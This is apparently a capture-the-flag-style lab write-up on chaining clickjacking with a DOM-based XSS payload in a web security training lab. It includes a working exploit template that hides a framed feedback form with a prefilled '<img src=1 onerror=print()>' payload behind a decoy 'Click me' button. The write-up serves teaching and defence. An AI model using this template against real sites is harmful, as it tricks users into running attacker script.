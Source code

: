 # Clickjacking - Exploiting clickjacking vulnerability to trigger DOM-based XSS

## 📌 Lab Details
- **Title**: Exploiting clickjacking vulnerability to trigger DOM-based XSS
- **Difficulty**: Practitioner
- **Category**: Clickjacking
- **Lab URL**:

## 🔍 Summary
This lab demonstrates combining **Clickjacking with stored XSS** by framing the feedback form with a prepopulated XSS payload, tricking the victim into clicking “Click me” while actually triggering `print()` via the XSS when the victim clicks.

## 🛠 Steps to Solve
1. Log in to the given account.
2. Inject the **XSS** modified payload on the **Exploit** server:
   ```sh
   <style>
	iframe {
		position:relative;
		width:$width_value;
		height: $height_value;
		opacity: $opacity;
		z-index: 2;
	}
	div {
		position:absolute;
		top:$top_value;
		left:$side_value;
		z-index: 1;
	}
   </style>
   <div>Click me</div>
   <iframe
   src="YOUR-LAB-ID.web-security-academy.net/feedback?name=<img src=1 onerror=print()>&email=hacker@attackerwebsite.com&subject=test&message=test#feedbackResult"></iframe>
   ```
3. Adjust the values of the template to align the `Click me` button with the `Submit feedback` button.
4. Deliver exploit to the victim to complete the lab.
   
## 📖 Key Takeaways
- Uses a **prepopulated URL with an XSS payload** (`<img src=1 onerror=print()>`) to execute JavaScript on click.
- Highlights the need for **anti-clickjacking and XSS defenses together** to prevent such chained attacks.
- Shows how **Clickjacking can be used to exploit XSS that requires user interaction**.

## 🖼️ Screenshot 
![image](https://github.com/user-attachments/assets/e3371a7f-cd70-4dd3-a81c-633522d69887)
![image](https://github.com/user-attachments/assets/b1430c2b-09ab-4dc1-b203-415d89f6f7c6)
![image](https://github.com/user-attachments/assets/29b0b755-fdaa-4577-b18b-adba75e7c4a7)
